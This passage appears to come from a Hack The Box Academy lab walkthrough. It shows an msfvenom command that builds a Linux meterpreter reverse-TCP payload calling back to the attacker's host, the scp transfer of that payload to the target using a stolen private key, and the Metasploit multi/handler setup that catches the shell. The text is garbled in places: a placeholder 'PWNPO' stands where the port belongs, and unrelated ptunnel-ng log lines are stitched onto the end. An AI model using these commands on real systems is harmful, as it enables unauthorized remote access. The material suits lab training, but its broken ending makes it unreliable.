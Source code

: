 ```
┌─[eu-academy-1]─[10.10.15.28]─[htb-ac413848@htb-wfcjqqqtou]─[~]
└──╼ [★]$ msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.15.28 LPORT=9001 -f elf -o 99c0b43c4bec2bdc280741d8f3e40338.elf

[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 130 bytes
Final size of elf file: 250 bytes
Saved as: 99c0b43c4bec2bdc280741d8f3e40338.elf
```

Subsequently, students need to transfer the payload to the spawned target machine using `scp`, utilizing the private key that was attained previously:

Code: shell

```shell
scp -i id_rsa 99c0b43c4bec2bdc280741d8f3e40338.elf webadmin@STMIP:~/
```

```
┌─[eu-academy-1]─[10.10.15.28]─[htb-ac413848@htb-wfcjqqqtou]─[~]
└──╼ [★]$ scp -i id_rsa 99c0b43c4bec2bdc280741d8f3e40338.elf webadmin@10.129.88.197:~/

99c0b43c4bec2bdc280741d8f3e40338.elf     100%  250    21.2KB/s   00:00
```

Then, on `Pwnbox`/`PMVPN`, students need to run `msfconsole` and use the `exploit/multi/handler` module to catch the call-back from the spawned target machine:

Code: shell

```shell
msfconsole -q
use exploit/multi/handler
```

```
┌─[eu-academy-1]─[10.10.15.28]─[htb-ac413848@htb-wfcjqqqtou]─[~]
└──╼ [★]$ msfconsole -q

[msf](Jobs:0 Agents:0) >> use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
```

Students also need to set the module's options accordingly, most importantly setting `LPORT` to be the same port that was specified when generating the `msfvenom` payload (9001 in here):

Code: shell

```shell
set LHOST 0.0.0.0
set LPORT PWNPO
set PAYLOAD linux/x64/meterpreter/reverse_tcp
run
```


[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <daniels@cs.uit.no>
[inf]: (c) 2017-2019 Toni Uhlig,     <matzeton@googlemail.com>
[inf]: Security features by Sebastien Raveau, <sebastien.raveau@epita.fr>
[inf]: Forwarding incoming ping packets over TCP.
[inf]: Ping proxy is listening in privileged mode.
[inf]: Dropping privileges now.
[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <daniels@cs.uit.no>
[inf]: (c) 2017-2019 Toni Uhlig,     <matzeton@googlemail.com>
[inf]: Security features by Sebastien Raveau, <sebastien.raveau@epita.fr>
[inf]: Relaying packets from incoming TCP streams.